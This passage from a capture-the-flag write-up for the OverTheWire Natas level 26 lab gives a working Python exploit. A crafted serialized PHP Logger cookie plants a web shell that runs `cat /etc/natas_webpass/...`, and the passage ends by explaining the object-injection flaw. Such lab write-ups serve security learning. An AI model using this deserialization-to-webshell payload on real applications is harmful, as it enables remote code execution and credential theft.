    6. We then just had a submit a GET request from the "filename" `img/sneaky.php`.

   7. Last step was to create a python script to run the attack. 

   ```python
      import requests
      from requests.auth import HTTPBasicAuth

      username = "natas26"
      password = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" # replace with actual

      def main():
         # --- Configuration ---
         url = f"http://{username}.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth(username, password)  
         session = requests.Session()

         session.cookies['drawing'] = "Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3NuZWFreS5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30="
         
         response = session.get(url, auth=auth, cookies=session.cookies )

         response = session.get(url+"/img/sneaky.php", auth=auth, cookies=session.cookies)
         print(response.text)
         
         print("="*32)


      if __name__ == "__main__":
         main()
   ```


---

🔑 **Why this works**: 
   
   - User-supplied `drawing` cookie is` base64_decode → unserialize` without validation, allowing PHP object injection.

   - Attacker can craft a serialized `Logger` object whose properties point to a writable webroot filename `(img/sneaky.php)` and include PHP payloads in init/exit messages.

   - `__construct / __destruct` (or other magic methods) perform file writes, so deserialization triggers writing attacker-controlled PHP into webroot.

   - The application later serves files from `img/`, so the attacker can request the written `sneaky.php` to execute arbitrary commands as the web user.

   - Coordinate inputs and cookie handling are not type-validated, making it easy to place malicious serialized data into the cookie and trigger the flow.

---
